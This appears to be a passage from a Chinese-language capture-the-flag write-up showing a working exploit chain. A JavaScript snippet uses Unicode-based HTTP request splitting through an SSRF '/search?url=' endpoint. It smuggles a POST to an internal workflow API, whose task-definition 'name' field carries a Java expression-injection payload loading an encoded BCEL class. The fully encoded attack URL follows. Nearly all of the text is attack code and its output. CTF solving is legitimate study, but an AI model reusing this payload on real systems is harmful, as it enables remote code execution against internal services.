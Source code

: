 ```
post_payload = '[\u{017b}\u{0122}name\u{0122}:\u{0122}$\u{017b}\u{0127}1\u{0127}.getClass().forName(\u{0127}com.sun.org.apache.bcel.internal.util.ClassLoader\u{0127}).newInstance().loadClass(\u{0127}$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$c2$40$U$3dS$K$85Z$e4$r$u$f8$C$5d$I$9a$d8$8d$3b$8c$h$a3$x$7cD$88$$$dcX$ea$E$87G$ne$m$f8E$ae$d9$a0q$e1$H$f8Q$ea$9d$c6$88$89N2$e7$ce$3d$f7$cc$b9$f3x$ffx$7d$Dp$80m$TQ$y$99$c8$o$X$c5$b2$8a$x$G$f2$s$c2$u$YX5$b0$c6$Q9$U$9e$90G$M$a1r$e5$9aA$3f$ee$dfs$86DMx$fc$7c$d4kr$bf$e14$bb$c4$c4$eb$d2q$3bg$ce$m$c8$83$ddy$92$f7$i$e11$e4$ca$b7$b5$b63v$ec$ae$e3$b5$ec$ba$f4$85$d7$aa$w$3b$b3$de$l$f9$$$3f$V$ca$ov2$W$dd$7d$a5$b3$Q$83i$60$dd$c2$G6$c9$7b$f8P$b4eo$60$fb$c2$ed$3cZ$u$a2$c4$90$99$h$9eL$5c$3e$90$a2$efY$d8$82I$5d$95$RCr$ae$b8h$b6$b9$x$ZRs$eaj$e4I$d1$a3$b6f$8b$cb$9f$q$5b$ae$d4$feh$aad$c9$t$dce$d8$v$ffs$8f_$d4$a5$dfw$f9pH$h$S$D$w$ca$e0Q$g$be$e3r$94$60$d0c$ab$a1$81$a9$fb$R$$PvG$b9F1$b7$fb$M$f6$C$z$j$9aA$bfyB$b4$b67CdJ$w$jq$q$e9O4X$a4$x$mB$Y$o6L$7c$8c$w$GR$e4$9c$r$c78U$92$d0$3e$J$98$81E$F$J$3d$d0$a4$be$bb$e5i25$a7$c1B$ZF$C$oN$98$O$O$97$f9$C$fe$5e$s$n$l$C$A$A\u{0127}).newInstance().class\u{017d}\u{0122},\u{0122}ownerEmail\u{0122}:\u{0122}test@example.org\u{0122},\u{0122}retryCount\u{0122}:\u{0122}3\u{0122},\u{0122}timeoutSeconds\u{0122}:\u{0122}1200\u{0122},\u{0122}inputKeys\u{0122}:[\u{0122}sourceRequestId\u{0122},\u{0122}qcElementType\u{0122}],\u{0122}outputKeys\u{0122}:[\u{0122}state\u{0122},\u{0122}skipped\u{0122},\u{0122}result\u{0122}],\u{0122}timeoutPolicy\u{0122}:\u{0122}TIME_OUT_WF\u{0122},\u{0122}retryLogic\u{0122}:\u{0122}FIXED\u{0122},\u{0122}retryDelaySeconds\u{0122}:\u{0122}600\u{0122},\u{0122}responseTimeoutSeconds\u{0122}:\u{0122}3600\u{0122},\u{0122}concurrentExecLimit\u{0122}:\u{0122}100\u{0122},\u{0122}rateLimitFrequencyInSeconds\u{0122}:\u{0122}60\u{0122},\u{0122}rateLimitPerFrequency\u{0122}:\u{0122}50\u{0122},\u{0122}isolationgroupId\u{0122}:\u{0122}myIsolationGroupId\u{0122}\u{017d}]'
console.log(encodeURI(encodeURI(encodeURI('http://0.0.0.0:3000/\u{0120}HTTP/1.1\u{010D}\u{010A}Host:127.0.0.1:3000\u{010D}\u{010A}\u{010D}\u{010A}POST\u{0120}/search?url=http://10.0.140.9:8080/api/metadata/taskdefs\u{0120}HTTP/1.1\u{010D}\u{010A}Host:127.0.0.1:3000\u{010D}\u{010A}Content-Type:application/json\u{010D}\u{010A}Content-Length:' + post_payload.length + '\u{010D}\u{010A}\u{010D}\u{010A}' + post_payload+ '\u{010D}\u{010A}\u{010D}\u{010A}\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private'))))
```

得到请求

```
http://0.0.0.0:3000/%2525C4%2525A0HTTP/1.1%2525C4%25258D%2525C4%25258AHost:127.0.0.1:3000%2525C4%25258D%2525C4%25258A%2525C4%25258D%2525C4%25258APOST%2525C4%2525A0/search?url=http://10.0.140.9:8080/api/metadata/taskdefs%2525C4%2525A0HTTP/1.1%2525C4%25258D%2525C4%25258AHost:127.0.0.1:3000%2525C4%25258D%2525C4%25258AContent-Type:application/json%2525C4%25258D%2525C4%25258AContent-Length:1426%2525C4%25258D%2525C4%25258A%2525C4%25258D%2525C4%25258A%25255B%2525C5%2525BB%2525C4%2525A2name%2525C4%2525A2:%2525C4%2525A2$%2525C5%2525BB%2525C4%2525A71%2525C4%2525A7.getClass().forName(%2525C4%2525A7com.sun.org.apache.bcel.internal.util.ClassLoader%2525C4%2525A7).newInstance().loadClass(%2525C4%2525A7$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$c2$40$U$3dS$K$85Z$e4$r$u$f8$C$5d$I$9a$d8$8d$3b$8c$h$a3$x$7cD$88$$$dcX$ea$E$87G$ne$m$f8E$ae$d9$a0q$e1$H$f8Q$ea$9d$c6$88$89N2$e7$ce$3d$f7$cc$b9$f3x$ffx$7d$Dp$80m$TQ$y$99$c8$o$X$c5$b2$8a$x$G$f2$s$c2$u$YX5$b0$c6$Q9$U$9e$90G$M$a1r$e5$9aA$3f$ee$dfs$86DMx$fc$7c$d4kr$bf$e14$bb$c4$c4$eb$d2q$3bg$ce$m$c8$83$ddy$92$f7$i$e11$e4$ca$b7$b5$b63v$ec$ae$e3$b5$ec$ba$f4$85$d7$aa$w$3b$b3$de$l$f9$$$3f$V$ca$ov2$W$dd$7d$a5$b3$Q$83i$60$dd$c2$G6$c9$7b$f8P$b4eo$60$fb$c2$ed$3cZ$u$a2$c4$90$99$h$9eL$5c$3e$90$a2$efY$d8$82I$5d$95$RCr$ae$b8h$b6$b9$x$ZRs$eaj$e4I$d1$a3$b6f$8b$cb$9f$q$5b$ae$d4$feh$aad$c9$t$dce$d8$v$ffs$8f_$d4$a5$dfw$f9pH$h$S$D$w$ca$e0Q$g$be$e3r$94$60$d0c$ab$a1$81$a9$fb$R$$PvG$b9F1$b7$fb$M$f6$C$z$j$9aA$bfyB$b4$b67CdJ$w$jq$q$e9O4X$a4$x$mB$Y$o6L$7c$8c$w$GR$e4$9c$r$c78U$92$d0$3e$J$98$81E$F$J$3d$d0$a4$be$bb$e5i25$a7$c1B$ZF$C$oN$98$O$O$97$f9$C$fe$5e$s$n$l$C$A$A%2525C4%2525A7).newInstance().class%2525C5%2525BD%2525C4%2525A2,%2525C4%2525A2ownerEmail%2525C4%2525A2:%2525C4%2525A2test@example.org%2525C4%2525A2,%2525C4%2525A2retryCount%2525C4%2525A2:%2525C4%2525A23%2525C4%2525A2,%2525C4%2525A2timeoutSeconds%2525C4%2525A2:%2525C4%2525A21200%2525C4%2525A2,%2525C4%2525A2inputKeys%2525C4%2525A2:%25255B%2525C4%2525A2sourceRequestId%2525C4%2525A2,%2525C4%2525A2qcElementType%2525C4%2525A2%25255D,%2525C4%2525A2outputKeys%2525C4%2525A2:%25255B%2525C4%2525A2state%2525C4%2525A2,%2525C4%2525A2skipped%2525C4%2525A2,%2525C4%2525A2result%2525C4%2525A2%25255D,%2525C4%2525A2timeoutPolicy%2525C4%2525A2:%2525C4%2525A2TIME_OUT_WF%2525C4%2525A2,%2525C4%2525A2retryLogic%2525C4%2525A2:%2525C4%2525A2FIXED%2525C4%2525A2,%2525C4%2525A2retryDelaySeconds%2525C4%2525A2:%2525C4%2525A2600%2525C4%2525A2,%2525C4%2525A2responseTimeoutSeconds%2525C4%2525A2:%2525C4%2525A23600%2525C4%2525A2,%2525C4%2525A2concurrentExecLimit%2525C4%2525A2:%2525C4%2525A2100%2525C4%2525A2,%2525C4%2525A2rateLimitFrequencyInSeconds%2525C4%2525A2:%2525C4%2525A260%2525C4%2525A2,%2525C4%2525A2rateLimitPerFrequency%2525C4%2525A2:%2525C4%2525A250%2525C4%2525A2,%2525C4%2525A2isolationgroupId%2525C4%2525A2:%2525C4%2525A2myIsolationGroupId%2525C4%2525A2%2525C5%2525BD%25255D%2525C4%25258D%2525C4%25258A%2525C4%25258D%2525C4%25258A%2525C4%25258D%2525C4%25258A%2525C4%25258D%2525C4%25258AGET%2525C4%2525A0/private
```
